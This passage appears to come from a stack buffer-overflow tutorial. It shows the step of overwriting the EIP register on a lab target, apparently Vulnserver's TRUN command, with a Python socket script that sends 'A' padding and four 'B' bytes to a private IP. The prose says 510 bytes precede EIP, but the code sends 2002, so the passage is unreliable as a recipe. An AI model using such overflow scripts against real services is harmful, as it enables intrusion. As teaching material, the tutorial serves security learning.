 # Overwriting the EIP

In our previous step, we successfully overflowed the buffer, which means that we have control over the data that will overwrite the `EIP` (Extended Instruction Pointer).

To proceed with overwriting the `EIP`, we need to consider that there are `510` bytes preceding the `EIP`. Therefore, we will send `510` bytes filled with 'A' characters to reach the `EIP`, followed by `4` bytes filled with 'B' characters to overwrite the `EIP`.

<img alt="" class="bg hc hd c" width="1000" height="620" loading="lazy" role="presentation" src="https://i.ibb.co/5YVvYKk/4-Overwrite-EIP.png"></img>

```python
#!/bin/python

import sys
import socket
from time import sleep

shellcode = "A"* 2002 + "B"* 4
try:
      s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.40.135',9999))
      s.send(('TRUN / .:/' + shellcode))
      s.close()
except:
      print "Error connecting to server"
      sys.exit()                  
```                                   
                                        
 I observed that the `EBP` (Extended Base Pointer) was filled with 'A's `(41414141)`, and the `EIP` was filled with 'B's `(42424242)`.

